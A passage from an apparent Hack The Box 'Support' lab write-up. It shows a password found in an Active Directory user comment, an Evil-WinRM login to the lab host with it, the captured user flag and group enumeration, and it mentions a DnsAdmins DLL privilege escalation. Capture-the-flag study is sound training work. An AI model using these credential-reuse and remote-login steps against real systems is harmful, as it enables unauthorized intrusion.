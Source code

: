 We find a bunch of users, as well as the very interesting `DnsAdmins`. If you've done the box **Resolute** you probably remember that DnsAdmin group equals instant privesc to Domain Admin using malicious DLL's, lets have this in mind for later. However, the obvious important thing here is the comment on user `Support` - `Ironside47pleasure40Watchful` which probably is his password.

Try to login with Evil-WinRM on port 5985 and grab user.txt.

```bash
➜  support evil-winrm -i 10.129.146.169 -u support -p Ironside47pleasure40Watchful
[... snip ...]
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support

*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
e950252033bf1ad08e45ce24502e4252
```

---------------

# ROOT

### Step 1
As previously mentioned, lets start by checking groups and privileges.
```powershell
*Evil-WinRM* PS C:\Users\support> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
support\support S-1-5-21-1677581083-3380853377-188903654-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------
```
